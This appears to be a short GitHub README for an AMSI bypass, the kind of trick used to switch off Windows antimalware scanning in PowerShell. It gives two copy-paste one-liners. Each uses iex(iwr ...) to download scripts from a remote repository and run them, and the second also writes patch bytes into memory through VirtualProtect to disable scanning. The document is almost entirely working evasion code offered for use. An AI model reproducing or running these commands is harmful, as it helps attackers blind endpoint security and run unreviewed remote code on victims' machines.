# AMSI
Another amsi bypass code. 

Usage :
Fast one liner, copy paste mode. 
1. Simple, nice, clean and readable :) - Load two file from remote 
```
iex(iwr https://raw.githubusercontent.com/zief/AMSI/main/aman.txt -Usebasicparsing);iex(iwr https://raw.githubusercontent.com/zief/AMSI/main/lain.txt -Usebasicparsing)
```

2. Load one remotely, and one in the oneliner.
```
iex(iwr https://raw.githubusercontent.com/zief/AMSI/main/aman.txt -Usebasicparsing);$hexString = "4831C0";$3b = [Byte[]]::new($hexString.Length / 2);for ($i = 0; $i -lt $hexString.Length; $i += 2) {$3b[$i / 2] = [Convert]::ToByte($hexString.Substring($i, 2), 16)};[System.Runtime.InteropServices.Marshal]::Copy($3b, 0, $alamat, $3b.Length);$vp.Invoke($alamat, $3b.Length, 0x20, [ref]$tua)
```


